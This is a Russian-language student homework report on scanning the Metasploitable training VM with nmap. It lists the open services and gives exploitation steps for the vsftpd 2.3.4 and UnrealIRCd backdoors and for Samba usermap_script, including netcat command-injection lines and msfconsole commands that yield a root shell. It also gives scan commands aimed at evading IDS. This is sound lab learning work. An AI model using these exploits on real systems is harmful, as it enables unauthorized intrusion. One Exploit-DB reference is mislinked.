


# Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Барышков Михаил`

## Задание 1

Скачайте и установите виртуальную машину Metasploitable: <https://sourceforge.net/projects/metasploitable/>.

Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту виртуальную машину, используя **nmap**.

Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.

Сами уязвимости можно поискать на сайте <https://www.exploit-db.com/>.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*

---

## Решение 1

1. **Сетевые службы, разрешенные на виртуальной машине:**




В результате сканирования `nmap -sV -A` были обнаружены следующие открытые порты и службы:

- **21/tcp** - FTP (vsftpd 2.3.4)
  - Анонимный вход разрешен (Anonymous FTP login allowed).
- **22/tcp** - SSH (OpenSSH 4.7p1)
- **23/tcp** - Telnet (Linux telnetd)
- **25/tcp** - SMTP (Postfix)
- **53/tcp** - DNS (ISC BIND 9.4.2)
- **80/tcp** - HTTP (Apache 2.2.8)
- **111/tcp** - RPCbind
- **139/tcp, 445/tcp** - Samba (SMB, версия 3.0.20-Debian)
- **3306/tcp** - MySQL (5.0.51a-3ubuntu5)
- **5900/tcp** - VNC (протокол 3.3)
- **6667/tcp** - IRC (UnrealIRCd 3.2.8.1)

2. **Обнаруженные уязвимости (3 примера):**

     1. **Уязвимость в vsftpd 2.3.4 (Backdoor Command Execution)**

    - **Описание:** В версии vsftpd 2.3.4 присутствует бэкдор, который позволяет злоумышленнику выполнить произвольные команды на сервере.
    - **[Ссылка: Exploit-DB: 17491](https://www.exploit-db.com/exploits/16922)**
    - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 21
        USER anyuser:)  
        PASS anypass  
        ```

    После этого бэкдор открывает порт 6200, через который можно получить shell.

    2. **Уязвимость в UnrealIRCd 3.2.8.1 (Backdoor Command Execution)**

     - **Описание:** В данной версии UnrealIRCd присутствует скрытый бэкдор, добавленный злоумышленниками.
     - **[Ссылка: Exploit-DB: 16922](https://www.exploit-db.com/exploits/16922)**
     - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 6667  
        AB; whoami
        ```

    Сервер выполнит команду whoami и вернет результат.

    3. **Уязвимость в Samba 3.0.20 (Username Map Script Command Execution)**

    - **Описание:** Позволяет выполнить произвольные команды через некорректную обработку параметров в username map script.
    - **[Ссылка: Exploit-DB: 16320](https://www.exploit-db.com/exploits/16320)**
    - **Метод эксплуатации:**

        ```sh
        msfconsole  
        use exploit/multi/samba/usermap_script  
        set RHOSTS <TARGET_IP>  
        exploit
        ```  

    В результате получаем shell с правами root (на Metasploitable).

3. **Дополнительные замечания:**

    - **FTP (vsftpd 2.3.4):** Анонимный вход позволяет загружать/скачивать файлы без аутентификации.
    - **Samba 3.0.20:** Открытый доступ к общим папкам (/tmp).
    - **MySQL 5.0.51a:** Устаревшая версия с известными уязвимостями.
    - **Apache 2.2.8:** Возможны уязвимости типа Directory Traversal или RCE (например, через PHP-скрипты).

**Рекомендации:**

- Обновить все службы до актуальных версий.
- Запретить анонимный доступ к FTP и Samba.
- Отключить ненужные сервисы (Telnet, VNC).

## Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.

Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

---

## Решение 2

## Отчет по сканированию Metasploitable различными методами Nmap

### 1. Сравнение режимов сканирования

| Метод       | Флаги TCP | Принцип работы                                                                 | Преимущества                          | Недостатки                          |
|-------------|-----------|-------------------------------------------------------------------------------|---------------------------------------|-------------------------------------|
| **SYN** (-sS) | SYN       | Отправка SYN, анализ ответа (SYN-ACK/RST)                                     | Быстрое, надежное                     | Требует root-прав                  |
| **FIN** (-sF) | FIN       | Отправка FIN, анализ ответа (RST/нет ответа)                                  | Обходит простые файрволы              | Менее надежное                      |
| **Xmas** (-sX)| FIN+PSH+URG | Аналогично FIN, но с дополнительными флагами                                 | Сложнее для детектирования           | Заметнее в сети                     |
| **UDP** (-sU) | UDP       | Отправка UDP-пакета, анализ ICMP-ответа                                       | Обнаруживает UDP-сервисы              | Очень медленное                     |

### 2. Поведение сервера при разных типах сканирования

- #### SYN-сканирование

Клиент → Сервер: [SYN]
Сервер → Клиент: [SYN, ACK] (порт открыт)
Клиент → Сервер: [RST] (разрыв)
ИЛИ
Сервер → Клиент: [RST] (порт закрыт)

- #### FIN-сканирование

Клиент → Сервер: [FIN]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

- #### Xmas-сканирование

Клиент → Сервер: [FIN, PSH, URG]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

- #### UDP-сканирование

Клиент → Сервер: [UDP-пакет]
Сервер → Клиент: [ICMP Port Unreachable] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

### 3. Практические наблюдения из Wireshark

- **SYN**: Четкие SYN-SYNACK-RST последовательности для открытых портов
- **FIN/Xmas**: Отсутствие ответа на открытые порты может давать ложные срабатывания
- **UDP**: Длительные паузы между проверками, ICMP-пакеты при закрытых портах

### 4. Рекомендации по использованию

1. **Для быстрого сканирования**: `nmap -sS -T4 <target>`
2. **Для скрытного сканирования**: `nmap -sF --max-retries 1 <target>`
3. **Для UDP-сервисов**: `nmap -sU -p 53,161,123 <target>`
4. **Для обхода IDS**: `nmap -sX --scan-delay 500ms <target>`

> **Примечание**: Все сканирования проводились на изолированной тестовой сети. В production-средах необходимо получать явное разрешение на проведение таких тестов.
